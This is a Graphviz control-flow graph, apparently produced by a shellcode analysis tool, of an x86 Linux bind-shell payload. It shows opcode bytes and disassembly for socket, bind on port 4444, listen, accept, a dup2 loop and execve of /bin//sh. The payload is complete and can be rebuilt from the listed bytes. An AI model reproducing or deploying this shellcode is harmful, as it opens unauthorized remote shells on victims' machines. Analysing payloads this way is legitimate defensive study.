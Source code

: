 digraph G {
	//rankdir=LR
	node [fontcolor="#ebe2bb", color="#ebe2bb", fontname=Courier, labeljust=r];
	 "0x5643b4aeea80" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 53                              push ebx\l0x00417005 43                              inc ebx\l0x00417006 53                              push ebx\l0x00417007 6A02                            push byte 0x2\l0x00417009 89E1                            mov ecx,esp\l0x0041700b B066                            mov al,0x66\l"]
	 "0x5643b4aec2e0" [shape=box, style=filled, color="#32302f", label = "0x0041700d socket\l"]
	 "0x5643b4aebf10" [shape=box, label = "0x0041700f 5B                              pop ebx\l0x00417010 5E                              pop esi\l0x00417011 52                              push edx\l0x00417012 680200115C                      push dword 0x5c110002\l0x00417017 6A10                            push byte 0x10\l0x00417019 51                              push ecx\l0x0041701a 50                              push eax\l0x0041701b 89E1                            mov ecx,esp\l0x0041701d 6A66                            push byte 0x66\l0x0041701f 58                              pop eax\l"]
	 "0x5643b4ae80c0" [shape=box, style=filled, color="#32302f", label = "0x00417020 bind\l"]
	 "0x5643b4ae7870" [shape=box, label = "0x00417022 894104                          mov [ecx+0x4],eax\l0x00417025 B304                            mov bl,0x4\l0x00417027 B066                            mov al,0x66\l"]
	 "0x5643b4ae54e0" [shape=box, style=filled, color="#32302f", label = "0x00417029 listen\l"]
	 "0x5643b4ae4c70" [shape=box, label = "0x0041702b 43                              inc ebx\l0x0041702c B066                            mov al,0x66\l"]
	 "0x5643b4ae3900" [shape=box, style=filled, color="#32302f", label = "0x0041702e accept\l"]
	 "0x5643b4ae2f60" [shape=box, label = "0x00417030 93                              xchg eax,ebx\l0x00417031 59                              pop ecx\l"]
	 "0x5643b4aed430" [shape=box, label = "0x00417032 6A3F                            push byte 0x3f\l"]
	 "0x5643b4ae8a70" [shape=box, label = "0x00417034 58                              pop eax\l"]
	 "0x5643b4ae8c50" [shape=box, style=filled, color="#32302f", label = "0x00417035 dup2\l"]
	 "0x5643b4aea7b0" [shape=box, label = "0x00417037 49                              dec ecx\l"]
	 "0x5643b4aea1f0" [shape=box, label = "0x00417038 79F8                            jns 0xfffffffa\l"]
	 "0x5643b4ae9bf0" [shape=box, label = "0x0041703a 682F2F7368                      push dword 0x68732f2f\l0x0041703f 682F62696E                      push dword 0x6e69622f\l0x00417044 89E3                            mov ebx,esp\l0x00417046 50                              push eax\l0x00417047 53                              push ebx\l0x00417048 89E1                            mov ecx,esp\l0x0041704a B00B                            mov al,0xb\l"]
	 "0x5643b4af3bb0" [shape=box, style=filled, color="#32302f", label = "0x0041704c execve\l"]
	 "0x5643b4aeea80" -> "0x5643b4aec2e0" [style = bold, color="#ebe2bb" ]
	 "0x5643b4aec2e0" -> "0x5643b4aebf10" [style = bold, color="#ebe2bb" ]
	 "0x5643b4aebf10" -> "0x5643b4ae80c0" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae80c0" -> "0x5643b4ae7870" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae7870" -> "0x5643b4ae54e0" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae54e0" -> "0x5643b4ae4c70" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae4c70" -> "0x5643b4ae3900" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae3900" -> "0x5643b4ae2f60" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae2f60" -> "0x5643b4aed430" [style = bold, color="#ebe2bb" ]
	 "0x5643b4aed430" -> "0x5643b4ae8a70" [style = bold, color="#fe8019" ]
	 "0x5643b4ae8a70" -> "0x5643b4ae8c50" [style = bold, color="#fe8019" ]
	 "0x5643b4ae8c50" -> "0x5643b4aea7b0" [style = bold, color="#fe8019" ]
	 "0x5643b4aea7b0" -> "0x5643b4aea1f0" [style = bold, color="#fe8019" ]
	 "0x5643b4aea1f0" -> "0x5643b4aed430" [style = bold, color="#fe8019" ]
	 "0x5643b4aea1f0" -> "0x5643b4ae9bf0" [style = bold, color="#ebe2bb" ]
	 "0x5643b4ae9bf0" -> "0x5643b4af3bb0" [style = bold, color="#ebe2bb" ]
}
